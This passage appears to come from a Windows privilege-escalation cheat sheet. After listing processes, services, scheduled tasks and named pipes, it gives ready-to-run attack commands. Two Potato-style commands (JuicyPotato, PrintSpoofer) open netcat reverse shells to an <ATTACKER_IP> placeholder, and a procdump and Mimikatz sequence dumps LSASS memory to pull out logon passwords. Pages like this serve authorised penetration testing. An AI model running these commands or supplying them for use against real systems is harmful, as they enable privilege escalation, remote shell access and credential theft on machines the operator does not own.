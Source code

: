 ### Processes, Services, and Tasks

Examine running processes and scheduled tasks for potential vulnerabilities.

```shell
# List running processes and associated services
tasklist /svc

# List all scheduled tasks with verbose output
schtasks /query /fo LIST /v

# List pipes to check for inter-process communication
pipelist.exe /accepteula
gci \\.\pipe\
```

-----

## Exploiting Privileges & Group Memberships

Leverage specific user rights or group memberships to gain higher privileges.

### User Privileges (`whoami /priv`)

Check your token privileges. Certain privileges are highly exploitable.

#### **SeImpersonate** / **SeAssignPrimaryToken** (Potato Attacks)

These privileges allow a service account to impersonate other users, including `NT AUTHORITY\SYSTEM`.

```shell
# Example with JuicyPotato
# This is often run from an initial shell, like one gained via xp_cmdshell
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe <ATTACKER_IP> <PORT> -e cmd.exe" -t *

# Example with PrintSpoofer
PrintSpoofer.exe -c "c:\tools\nc.exe <ATTACKER_IP> <PORT> -e cmd"
```

#### **SeDebugPrivilege**

Allows you to debug processes, including `lsass.exe`, to dump credentials.

```shell
# Dump the LSASS process memory
procdump.exe -accepteula -ma lsass.exe lsass.dmp

# Use Mimikatz to extract credentials from the dump file
mimikatz.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
exit
```
